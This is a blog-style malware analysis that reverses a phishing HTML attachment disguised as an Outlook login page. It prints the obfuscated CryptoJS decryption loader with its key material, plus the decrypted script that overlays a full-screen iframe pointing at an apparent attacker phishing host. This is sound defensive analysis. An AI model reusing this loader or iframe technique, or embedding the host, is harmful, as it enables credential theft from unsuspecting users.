









# Reversing a Phishing Webpage
*This blog shows the steps of analyzing and reverse engineering a Microsoft Outlook login page that is sent through phishing email.*
<!-- more -->

## Overview
This blog post explores the reverse engineering of a self-contained phishing webpage disguised as a Microsoft Outlook login page, which was delivered as an HTML attachment in a phishing email targeting an organization's employees. The phishing page operates independently, embedding the recipient’s email to enhance credibility while using obfuscated JavaScript and encrypted payloads to evade detection. By analyzing its structure, deobfuscating encoded scripts, and decrypting hidden content, we uncover how attackers craft deceptive login portals to steal credentials. Understanding these techniques helps in detecting, mitigating, and preventing similar phishing threats in the future.

!!! question "What is a self-contained webpage?"
    A self-contained webpage is a web page that includes all its resources in a single file, which means that it works without relying on any external resources or files.


## Analyzing the Webpage
---

After verifying the file type using `file` command, we can confirm that it is a HTML file.


Viewing the HTML file in the browser in a safe environment, we can see that it is presented as a fake Microsoft login page, with a specific email of the victim in the organization. Therefore, we can confirm that this is indeed a phishing page.

!!! note
    Note that this page will not load properly when it is opened in Linux environment. Therefore, we can say that this phishing attempt is targeted to Windows users only.


By viewing the details in the HTML file, we can see that there is a suspicious code which is base64 encoded. Decoding it will give us another link.

### View Element / Inspect the Webpage

Inspecting the page in the browser will see that it is trying to load other links.


Looking through the Network tab shows that it is visiting several links that look suspicious.

### Deobfuscate the Code

Visiting the suspicious link will direct us to a similar Microsoft login page. From here, we are able to know that how the self-contained webpage without much elements can present a Microsoft login page to the victim as they are loading an external link to display the page.


Browsing to another suspicious link from the Network tab will give us some obfuscated JavaScript code and some suspicious base64 encoded strings. Decoding the base64 encoded strings will give us the result below:

```
{"a":"uOkAOFJp02TwxVmtqz56AXKEkKO7zTFH8+qx\/eFWLVX0aJdFiaOTGZGPO7otVOmVB85\/76zM4X8NjLBvGjKtUJ7IlNXPRsrF6uikrMSIZInPcCMAQXXXPRbxckS4OCN1Ey0A+trNAoWfObVyULJpdtISulWZsmt+iJE1u6zudKZiYh7Mgz9mrLkXl4LpoFcZW0+\/7HyPjkK+Szr5uoC+aNrUQgvb1ZGKnA7TQjjj4FzQl1yATbLAfhdC8N3tkSE0BmZuo2jd3uSoMkRxW6BDsbioI+pvyRz5VtUrnP2GULpPy4WkCcBxWB6RUKqMwC9duyDyHt7g77n2JhGj2kwpK+e3x5vZSllp8n\/zEIoHum2+cwmA5RPfPDI+nUWIGcEaH2Yxhfd6U8u5INT+ajIhy9AGf7FYTtkLujIIxz\/5TcjIjV75Ccu1o0CEaRLHssjSN9HQpz6a6A91WTJ7IGDXvBuMVDPjwosBWcftoaY39yxk+vZcOmq5tB1FJ7j1nAAEkMWcmpr9JjhFgDfEw71FvE8qpL4YdBZDnIhVqVYk8L4I\/etWk4\/nbHrDnUduvx+v34khbPSKJo2PZJ7yf0CQtoZ40qBK0\/tZqKF8nnArmCAgkdTzX3CA+4E1b9DATWgxwnqgeR8hjQ6W682FAIDgl2VVEGaE+Gl8T8HLBFgaVS7v7MPhXacIH49W1ytIFXCK1mW5aGnPZgjr56KF9B3v\/gdg4+6DD+AY0x6k4PuxDOWmzjBgnOwX0fp5WykhTWSNHLtkuTfMvLlfryOmflu4iZ7QaZAZXhHi+IRDkQQ2Y86ByA9t9rz5b9\/C8B0FkyaahHaXug4WTtROTaq9loI2x2N234vwNvZAb233hxASAEHF3lTbIpjXxygunyEImD+we5MGWeKwMdGPhHHfwVMReO5kzBWZJQpR5IlTjU3CdavDp+ONC81DeUoHSH18iO6e\/xr3MliBcgG5CQO3oxOF0UsNToHm0IcLxqDGdz7OD2oEUBDvYoEDXS2byGQWdmtziHtMQU9iFr+p8igZaZgbdX8uCqSjXEwj516BjDGTuEiw8kOAUEt8L2qYVZDWMttumXOUFcMz1Dsp\/O+23JtgxQ==","b":"67e80d86d161031a","c":"64c7d68a087d16c1","d":"3732386231353330313339636133633132313935343332366564333138383532"}
```

## Reversing the Code
---
By combining the decoded base64 code, this will be the complete code:

```
var vREUMQflsVlGKTMy = document.createElement("script");
vREUMQflsVlGKTMy.setAttribute("src","https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.0.0/crypto-js.min.js");
document.head.append(vREUMQflsVlGKTMy);
vREUMQflsVlGKTMy.onload=function(){
var {a,b,c,d} = JSON.parse({"a":"uOkAOFJp02TwxVmtqz56AXKEkKO7zTFH8+qx\/eFWLVX0aJdFiaOTGZGPO7otVOmVB85\/76zM4X8NjLBvGjKtUJ7IlNXPRsrF6uikrMSIZInPcCMAQXXXPRbxckS4OCN1Ey0A+trNAoWfObVyULJpdtISulWZsmt+iJE1u6zudKZiYh7Mgz9mrLkXl4LpoFcZW0+\/7HyPjkK+Szr5uoC+aNrUQgvb1ZGKnA7TQjjj4FzQl1yATbLAfhdC8N3tkSE0BmZuo2jd3uSoMkRxW6BDsbioI+pvyRz5VtUrnP2GULpPy4WkCcBxWB6RUKqMwC9duyDyHt7g77n2JhGj2kwpK+e3x5vZSllp8n\/zEIoHum2+cwmA5RPfPDI+nUWIGcEaH2Yxhfd6U8u5INT+ajIhy9AGf7FYTtkLujIIxz\/5TcjIjV75Ccu1o0CEaRLHssjSN9HQpz6a6A91WTJ7IGDXvBuMVDPjwosBWcftoaY39yxk+vZcOmq5tB1FJ7j1nAAEkMWcmpr9JjhFgDfEw71FvE8qpL4YdBZDnIhVqVYk8L4I\/etWk4\/nbHrDnUduvx+v34khbPSKJo2PZJ7yf0CQtoZ40qBK0\/tZqKF8nnArmCAgkdTzX3CA+4E1b9DATWgxwnqgeR8hjQ6W682FAIDgl2VVEGaE+Gl8T8HLBFgaVS7v7MPhXacIH49W1ytIFXCK1mW5aGnPZgjr56KF9B3v\/gdg4+6DD+AY0x6k4PuxDOWmzjBgnOwX0fp5WykhTWSNHLtkuTfMvLlfryOmflu4iZ7QaZAZXhHi+IRDkQQ2Y86ByA9t9rz5b9\/C8B0FkyaahHaXug4WTtROTaq9loI2x2N234vwNvZAb233hxASAEHF3lTbIpjXxygunyEImD+we5MGWeKwMdGPhHHfwVMReO5kzBWZJQpR5IlTjU3CdavDp+ONC81DeUoHSH18iO6e\/xr3MliBcgG5CQO3oxOF0UsNToHm0IcLxqDGdz7OD2oEUBDvYoEDXS2byGQWdmtziHtMQU9iFr+p8igZaZgbdX8uCqSjXEwj516BjDGTuEiw8kOAUEt8L2qYVZDWMttumXOUFcMz1Dsp\/O+23JtgxQ==","b":"67e80d86d161031a","c":"64c7d68a087d16c1","d":"3732386231353330313339636133633132313935343332366564333138383532"});
var cZGceBhgvsmehtWx = CryptoJS.PBKDF2(CryptoJS.enc.Hex.parse(d),CryptoJS.enc.Hex.parse(b),{hasher:CryptoJS.algo.SHA512,keySize:64/8,iterations:999});
BvfzMQepfEJSRDWS = CryptoJS.AES.decrypt(a,cZGceBhgvsmehtWx,{iv:CryptoJS.enc.Hex.parse(c)}).toString(CryptoJS.enc.Utf8);
BvfzMQepfEJSRDWS = BvfzMQepfEJSRDWS.replace(/taPrwRNRJOtebyHj/g, NeaAWu);
document.write(BvfzMQepfEJSRDWS);
}
```
After getting the complete code, we need to understand it line by line in order to decrypt the code.

```
var cZGceBhgvsmehtWx = CryptoJS.PBKDF2(CryptoJS.enc.Hex.parse(d),CryptoJS.enc.Hex.parse(b),{hasher:CryptoJS.algo.SHA512,keySize:64/8,iterations:999});
```
This line of code is using the CryptoJS library to perform a key derivation function (KDF) called PBKDF2 (Password-Based Key Derivation Function 2). The purpose of PBKDF2 is to securely derive a cryptographic key from a password or passphrase. The PBKDF2 key created is stored in a variable named `cZGceBhgvsmehtWx`. According to the [CryptoJS documentation](https://cryptojs.gitbook.io/docs#pbkdf2), the parameter is defined as `CryptoJS.PBKDF2(passphrase, salt, keysize)`. Including all other parameters, we can conclude that: 
- passphrase = d
- salt = b
- hash = 512
- key size = 64 bits
- iterations = 999


However, for some unknown reason, the key size is incorrect. In the end, we need to use trial and error method to find out that the key size is 256 bit. Using all the information we have, we can then derive a key using [CyberChef](https://gchq.github.io/CyberChef/). 

```js {frame="none"}
BvfzMQepfEJSRDWS = CryptoJS.AES.decrypt(a,cZGceBhgvsmehtWx,{iv:CryptoJS.enc.Hex.parse(c)}).toString(CryptoJS.enc.Utf8);
BvfzMQepfEJSRDWS = BvfzMQepfEJSRDWS.replace(/taPrwRNRJOtebyHj/g, NeaAWu);
document.write(BvfzMQepfEJSRDWS);
```
This line of code decrypts a AES-encrypted content. According to the [CryptoJS documentation](https://cryptojs.gitbook.io/docs#pbkdf2), the parameter is defined as `CryptoJS.AES.decrypt(encrypted-msg, passphrase)`. Including all other parameters, we can conclude that: 
- encrypted-msg = a
- passphrase = cZGceBhgvsmehtWx (which we decoded previously)
- iv = c


Do note that we need to base64 decode the variable `a` before we use AES decrypt as the content is encoded in base64 initially. With all the information given, we will be able to decrypt the content. 

Decrypted content:
 
```
var ifMgQMPeYEbXJsAn = document.createElement('iframe');
    ifMgQMPeYEbXJsAn.sandbox.add('allow-same-origin');
    ifMgQMPeYEbXJsAn.sandbox.add('allow-top-navigation');
    ifMgQMPeYEbXJsAn.sandbox.add('allow-modals');
    ifMgQMPeYEbXJsAn.sandbox.add('allow-scripts');
    ifMgQMPeYEbXJsAn.sandbox.add('allow-popups-to-escape-sandbox');
    ifMgQMPeYEbXJsAn.sandbox.add('allow-forms');
    ifMgQMPeYEbXJsAn.src =  "https://href.li/?https://xociso.leciphom.com/GnSzT/"+"taPrwRNRJOtebyHj";
    ifMgQMPeYEbXJsAn.style.cssText = 'position: fixed; inset: 0px; width: 100%; height: 100%; border: 0px; margin: 0px;padding: 0px; overflow: hidden; z-index: 999999;';
    document.write(ifMgQMPeYEbXJsAn);
    document.body.innerHTML = "";
    document.body.appendChild(ifMgQMPeYEbXJsAn);
    </script>
```

## Conclusion
---
By reverse engineering this phishing webpage, we uncovered how attackers use self-contained HTML attachments with obfuscated scripts and encrypted payloads to evade detection and steal credentials. The phishing page dynamically loads external content and embeds the victim’s email to appear more convincing. Understanding these techniques enables security professionals to better detect, analyze, and mitigate similar threats, strengthening organizational defenses against phishing attacks.